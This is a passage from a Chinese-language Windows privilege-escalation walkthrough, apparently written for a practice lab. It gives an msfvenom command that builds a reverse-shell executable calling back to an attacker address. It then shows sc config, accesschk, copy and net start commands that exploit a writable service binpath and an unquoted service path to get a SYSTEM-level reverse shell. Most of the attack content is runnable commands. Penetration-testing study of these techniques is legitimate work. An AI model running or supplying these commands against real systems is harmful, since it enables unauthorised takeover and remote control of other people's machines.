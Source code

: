 

修改服务配置，并将BINARY_PATH_NAME（binpath）设置为您创建的rshell.exe可执行文件：

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.25.236 LPORT=1337 -f exe -o rshell.exe
```



```
sc config xxx binpath= "\"C:\PrivEsc\rshell.exe\""
```

在Kali上启动侦听器，然后启动服务以生成以SYSTEM特权运行的反向Shell：

```
net start xxx
```

###### 未使用引号的服务路径

当引用的服务路径未使用引号时，我们可以对其利用

![image-20200712114735920](assets/8.提权.assets/image-20200712114735920.png)

路径没有引用，我们可以使用rshell文件替换掉Common

查询“ unquotedsvc” 服务，然后查询该服务是否具有SYSTEM特权（SERVICE_START_NAME），并且BINARY_PATH_NAME未引用并且包含空格。

```
sc qc unquotedsvc
```

使用accesschk.exe，请注意BUILTIN\Users组被允许写入`C:\Program Files\Unquoted Path Service\`目录：

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

将您创建的reverse.exe可执行文件复制 到此目录，并将其重命名为Common.exe：

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

在Kali上启动侦听器，然后启动服务以生成以SYSTEM特权运行的反向Shell：

```
net start unquotedsvc
```
